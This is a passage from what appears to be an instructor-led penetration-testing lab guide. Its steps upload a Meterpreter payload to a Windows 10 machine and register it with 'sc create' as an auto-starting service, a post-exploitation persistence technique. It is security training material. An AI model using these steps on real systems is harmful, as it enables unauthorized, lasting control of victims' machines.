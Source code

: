      - Point out to students that the format must be `exe-service` and not just `exe`. Executables run by Service Manager are different from regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
         - `ls` (to see your executable)
	 - `upload service.exe`

     ![A screenshot depicts the results of the command.](Images/uploadWIN10.PNG)

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`

     ![A screenshot depicts the results of the command.](Images/makeservice.PNG)

